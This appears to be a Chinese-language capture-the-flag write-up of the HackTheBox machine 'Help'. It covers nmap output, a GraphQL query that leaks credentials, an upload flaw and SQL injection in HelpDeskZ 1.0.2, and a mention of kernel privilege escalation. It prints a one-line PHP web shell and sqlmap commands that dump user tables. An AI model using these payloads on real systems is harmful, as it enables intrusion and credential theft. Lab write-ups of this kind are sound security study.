

## nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).

```

## dirsearch

### 80端口


扫目录先扫到http://10.10.10.121/support，继续扫扫到下面这些目录，


在readme中找到版本号为1.0.2


该版本存在[SQL注入和任意文件上传](https://www.exploit-db.com/exploits/41200)

sql注入需要登录

## 3000端口

查看响应头服务器正在运行express框架

搜到express js query language可以查到graphql


graphql查询语法[Pwning WordPress GraphQL |渗透测试合作伙伴 --- Pwning WordPress GraphQL | Pen Test Partners](https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

查询有哪些schema

```
http://help.htb:3000/graphql?query={%20__schema{queryType{name,fields{name,description}}}}
```


然后查询username和password

```
http://10.10.10.121:3000/graphql?query={user{username,password}}
```


```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```

```
helpme@helpme.com：godhelpmeplz
```

然后使用该账号密码即可登录

## 突破点

上面查询到helpdeskz 1.0.2存在文件上传漏洞和sql注入漏洞，分别都尝试一下

### 文件上传漏洞

漏洞原理，上传之后的文件名命名时会以当前时间戳的MD5值增加扩展之后进行命名，所以存在爆破的可能性[爆破脚本](https://github.com/b4rt00/helpdeskz-1.0.2-file_upload)

```
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

上传一句话木马

```
<?php @system($__GET[cmd]);?>
```


然后反弹shell


### sql注入

[HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download - PHP webapps Exploit](https://www.exploit-db.com/exploits/41200)


注入点就在上传文件之后，文件下载的url中，注入参数为param[]

使用sqlmap爆出用户名和密码

```
sqlmap -r sql1 -p param[] --batch --dbs
```


```
sqlmap -r sql1 -p param[] --batch -D support --tables --threads 10
```


```
sqlmap -r sql1 -p param[] --batch -D support -T users --columns --threads 10
```


```
sqlmap -r sql1 -p param[] --batch -D support -T staff -C username,password --threads 10 --dump
```


sql注入得到admin密码

```
admin：Welcome1
```

ssh连接尝试多个用户名，最后help用户成功登录，

该版本存在内核漏洞，内核提权即可

## 提权

该版本存在内核提取漏洞




本地下载之后上传到靶机，靶机编译之后运行即可

